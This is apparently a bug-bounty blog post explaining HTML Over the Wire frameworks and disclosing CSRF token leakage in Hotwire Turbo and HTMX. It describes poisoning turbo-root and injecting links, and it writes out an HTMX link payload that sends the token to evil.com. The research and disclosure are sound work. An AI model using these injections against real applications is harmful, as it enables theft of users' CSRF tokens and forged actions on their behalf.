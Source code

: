 ```yaml
---
layout: post
title:  "HTML Over the Wire"
date:   2023-07-30
categories: bugbounty
---
```


*A new web app architecture pattern is being adopted by many popular frameworks. Let's talk about risk!*

--- 

# What is HTML Over the Wire? A brief history of web app tech.  

***TL;DR: Early web applications made you wait after every click until it could render an HTML response on the server and send it back. SPAs made the web more responsive by handling interactions in the background and updating the UI by sending XHR requests to JSON/XML apis. A new pattern has recently emerged that attempts to combine these two approaches, but brings with it some interesting and dangerous new functionality.*** [Skip Ahead](#A)

I'm old enough to remember a time before reactive, responsive single-page web applications (SPA) were the norm. Heck I'm old enough to remember a time before the vast majority of the web was dynamic at all, but I want to talk about a time somewhere between ancient history and the modern web. 

Back then, users interacted with websites through simple actions like submitting forms and clicking links. When you performed any of these actions, the browser would send a request to the server and then pause to wait for a response. The server, upon receiving the request, would process the input and generate an entirely new HTML document. This freshly generated page would be returned to the browser, and the whole cycle would start again for each new action. 

The problem with this approach was that it felt really slow and cumbersome having to wait for the full request/response cycle to complete after every click. To deal with this, web developers began using javascript to create real-time responsive interactions on the page. Clicking a button could fire off an AJAX / XHR request in the background and display some new data without having to reload the entire page. Eventually, entire libraries and frameworks were developed to make these "responsive" interactions more accessible. And now, the most common architecture we see in modern web applications is the SPA pattern, where the application runs almost entirely on the client and uses asynchronous / background http requests to JSON APIs to populate the app with dynamic data. 

This is much more performant. SPAs are snappy and react instantly when you click on things. The modern web just feels nice compared to the clunky, cumbersome apps of old. But it's not perfect. Generally, an SPA sends a fetch request to collect some data from the server. That response is generally wrapped up in JSON or XML, and then the client is expected to parse it, process it, and reflect it in the UI using javascript. The frameworks that enable this can be very complex and very weighty, and developers have to write a lot of custom javascript to get things working correctly. But, as is always the way with these things, pain brings innovation. Over the last few years popular frameworks have been adopting a new approach to web application architecture. 

HTML Over the Wire, sometimes called "FROW" or "fragments over the wire", is a web application architecture that attempts to combine the simplicity of the ancient practice of rendering HTML on the server with the snappy responsiveness common in single-page applications. By rendering HTML on the server, you can significantly reduce the need for custom javascript in the frontend. Then, you can retrieve the rendered HTML using asynchronous fetch requests that dynamically update portions of the rendered page without a full reload. 

---
<a name="A"></a>
Some of the libraries and framework extensions that attempt to enable HTML Over the Wire include 
  - Hotwire Turbo - default frontend framework that ships with Rails 7
  - Unpoly - framework agnostic javascript library
  - HTMX - another framework agnostic javascript library, one of the earliest HOTW libraries
  - Laravel Livewire - HOTW for Laravel applications 
  - Phoenix Liveview - HOTW for elixir applications
  - Django Sockpuppet - HTML over websockets, a different approach with the same goal and similar risks.
  - more?
    
This writeup details a security concern related to a single specific feature common to many of these libraries. After spending a few hours in documentation hell, I had a hypothesis about a particular issue that I expected to find in some of them. I tested for it in Hotwire Turbo, HTMX, and unpoly and only unpoly handled it safely. I suspect this issue, and many more related issues, exist in these frameworks. I hope this article prompts some of you to find more!

---

# Clicking links is not just for GET requests anymore. 

When you click a link on a website, you don't want to have to wait for a full page reload. You can accomplish this with javascript by intercepting the link click, firing off a `fetch()` in the background, and updating the UI without reloading the page. Almost every HOTW library does this automatically without the need for any custom javascript. Every link click and form submission is intercepted, the default browser behaviour is interrupted, and the request is instead sent using fetch() / XHR. 

The default browser behaviour for handling a link click is extremely simple. It just sends a GET request. But, now that we're handling link clicks with fetch we could potentially make them a lot more powerful. Given that HOTW wants to reduce the need for custom javascript, many of these frameworks expose some of the most powerful fetch() API features through HTML attributes. 

For example, in hotwire turbo you get this handy syntax:
```
<a href="..." data-turbo-method="POST">Click me to post!</a>
```

in HTMX you have:
```
<a href="..." hx-post="http://something.com">Click me to post!</a>
```

in Unpoly you have:
```
<a href="..." up-method="POST">Click me to post!</a>
```

Similar features exist in other HOTW libraries. You can probably already see the potential here. Simple link injections just got a lot more interesting. 

Some of these libraries even allow you to attach headers to the request in the same way. With HTMX you can do this using:
```
<a href="..." hx-headers='{"Header": "Value"}'>Click me!</a>
```

And with unpoly:
```
<a href="..." un-headers='{"Header": "Value"}'>Click me!</a>
```

You probably already have some ideas for how these features could be leveraged in attack chains. The rest of this article will focus on a specific issue I was able to exploit in both Hotwire Turbo and HTMX. This is a fairly simple bug and I'm certain there are many cooler things to discover. 

---

# CSRF Token Exposure. 

A lot of web app frameworks will read CSRF tokens from headers. Rails, for example, will read the csrf token from the `x-csrf-token` header, and django will read it from `x-csrftoken`. This is a fairly common convenience for SPA style applications. The framework will embed a <meta> tag containing the token in the HTML so it can be accessed by javascript and attached as a header to fetch requests. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/2305261e-a674-4fd5-93e3-faf53eae5c67)

Of course, HOTW wants to minimize custom javascript, so they often implement simplified ways to access these tokens. For example, let's look at how this works in Hotwire Turbo. 

When you submit a form, or click a link in a turbo-enabled app, turbo interrupts the default browser behaviour to determine how to handle sending the request. If the destination of the request is to an offsite location on a completely different host, turbo will hand control back over to the browser so that it can process the request in the normal way. If it's a relative path to a local resource, turbo will handle the request asynchronously using fetch. 

Turbo allows you to specify a "turbo-root" directive in a meta tag. This allows you to further restrict what links will be processed by turbo. You set the turbo-root to a local path, and only links to that path will be processed by turbo. At least, that's how it's supposed to work according to this documentation: 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/927fea12-5c2f-49a5-b823-3423384bad18)

In reality, there's nothing preventing you from setting your turbo root to a fully qualified URL pointing to an off-site location. Unfortunately, when you click a turbo-enabled POST link that matches the turbo-root, the CSRF token is sent along. This means that if you can poison the turbo root and inject a link you can extract a csrf token. I've seen this in an exploitable context where the turbo-root was dynamically set to a user-controlled path, and link injection was possible on the same page. 

Note in the following image, a request to localhost happily shipped the csrf-token to evil.com. (the 405 error is just because I'm using an instance of node `http-server` that doesn't accept post requests) 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1102201e-6593-46dd-bf0c-66f0b25e1ca1)

This bug was reported to the Hotwire Turbo maintainers months ago, but no patch has been released. 

---

A similar issue exists in HTMX. With this framework you can attach an hx-header attribute to some tag, and have the functionality cascade to links and forms that are children of that element. This is actually recommended in the documentation:

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1f57f420-1e06-495b-8653-9e859a7bb1d0)

Unfortunately, there's nothing in place to prevent sending this header to cross-origin hosts. If a page has this hx-header attribute in the body tag, injecting a POST link anywhere in the body will result in the CSRF tag being sent to wherever that link is pointing, even if it's another domain. 

So in an application that follows the documentation where the body tag includes the hx-headers directive, and a link later in the body points to a domain controlled by the attacker:
```
<body hx-headers='{"X-CSRFToken": "{{ csrf_token }}"}'>
...
<a hx-post="http://evil.com:8008">TEST</a>
```

Again note that the HTMX app is running on localhost, but sending the csrf token to evil.com. (again the 405 is just the servers response to any POST req.)
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/01a7a622-3f3d-4b7f-85a4-e751bc68d33c)

---

These are two simple attacks leveraging some of the design philosophies built into this new HTML Over the Wire architecture. I have no doubt that many more interesting attacks will be discovered. Happy hacking!
